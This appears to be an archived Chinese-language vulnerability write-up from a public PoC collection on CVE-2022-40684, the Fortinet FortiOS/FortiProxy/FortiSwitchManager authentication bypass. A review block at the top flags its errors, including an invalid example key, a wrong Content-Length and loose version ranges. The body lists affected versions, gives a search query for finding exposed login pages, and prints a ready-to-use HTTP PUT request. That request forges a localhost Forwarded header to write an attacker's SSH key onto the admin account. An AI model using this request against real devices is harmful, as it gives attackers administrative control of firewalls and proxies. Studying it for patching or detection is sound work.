


# Fortinet 管理 API 认证绕过与 SSH 公钥配置写入（CVE-2022-40684）

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：FortiOS / FortiProxy / FortiSwitchManager
- 本文讨论：CVE-2022-40684
- 版本、权限与配置前提：管理API可达，伪造转发身份；产品分支范围有但写法不规范
- 资料类型：认证绕过PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 标题RCE而PoC只演示写管理员SSH key，应以认证绕过为主并说明后续链
- 示例ssh-public-key1=123不是有效公钥，Content-Length597不符实际体
- &lt;=加逗号离散版本可能扩大范围；没有原始公告/来源及修复矩阵
- 已落实的文本修订：HTTP 报文围栏改为 http；标题与正文证据对齐。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 三产品适用范围、SSH条件与有效请求待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Fortinet 周一指出，上周修补的 CVE-2022-40684 身份验证绕过安全漏洞，正在野外被广泛利用。作为管理界面上的一个身份验证绕过漏洞，远程威胁参与者可利用其登录 FortiGate 防火墙、FortiProxy Web 代理、以及 FortiSwitch Manager（FSWM）本地管理实例

## 漏洞影响

```
FortiOS <= 7.2.1、7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0
FortiProxy <= 7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0
FortiSwitchManager <= 7.2.0、7.0.0
```

## 网络测绘

```
title="FortiProxy"
```

## 漏洞复现

登录页面



验证POC, 利用时更换 admin用户名及 ssh-public-key1中的 ssh key 添加远程 SSH登录凭证

```http
PUT /api/v2/cmdb/system/admin/admin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 597
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "123"}
```




---

> 来源：Threekiii/Awesome-POC
